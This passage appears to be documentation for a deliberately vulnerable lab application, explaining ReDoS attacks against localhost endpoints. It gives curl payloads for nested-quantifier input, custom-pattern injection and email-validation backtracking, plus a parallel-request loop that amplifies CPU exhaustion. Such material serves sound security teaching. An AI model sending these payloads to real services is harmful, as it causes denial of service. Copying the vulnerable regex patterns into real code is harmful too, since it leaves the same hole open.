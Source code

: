 ## How ReDoS Attacks Work

### Attack Vectors

#### 1. Basic Nested Quantifier Attack
```bash
# Attack the basic validation endpoint
curl "http://localhost:5000/api/regex/validate?input=aaaaaaaaaaaaaaaaaaaaac"
```

**What happens:**
1. Server receives input with 20 'a' characters followed by 'c'
2. Regex engine tries to match `^(a+)+b$` pattern
3. Since it ends with 'c' not 'b', engine backtracks through all combinations
4. With 20 characters, engine makes ~2^20 = 1,048,576 attempts
5. CPU usage spikes to 100%, response times out

#### 2. Custom Pattern Injection
```bash
# Inject custom catastrophic pattern
curl "http://localhost:5000/api/vulnerable/regex-validate?input=aaaaaaaaaaaac&customPattern=%5E%28a%2B%29%2Bb%24"
```

**URL Decoded Pattern:** `^(a+)+b$`

**Attack Flow:**
1. Attacker provides both malicious input and malicious pattern
2. Server constructs regex with user-supplied pattern
3. Pattern causes exponential backtracking
4. Server becomes unresponsive

#### 3. Email Validation Attack
```bash
# Attack email validation with ReDoS payload
curl "http://localhost:5000/api/vulnerable/multi-regex?email=a@a.aaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

**What happens:**
1. Email pattern has nested quantifiers: `([a-zA-Z0-9\-])+\.)+`
2. Input has many 'a' characters after the dot
3. Engine tries to match the pattern in multiple ways
4. Causes exponential backtracking and CPU exhaustion

#### 4. Amplification Attacks
```bash
# Multiple simultaneous requests to amplify impact
for i in {1..10}; do
    curl "http://localhost:5000/api/regex/validate?input=aaaaaaaaaaaaaaaaaaaaac" &
done
```

**Impact:**
- Multiple threads each consuming 100% CPU
- Server becomes completely unresponsive
- Potential application crash or timeout
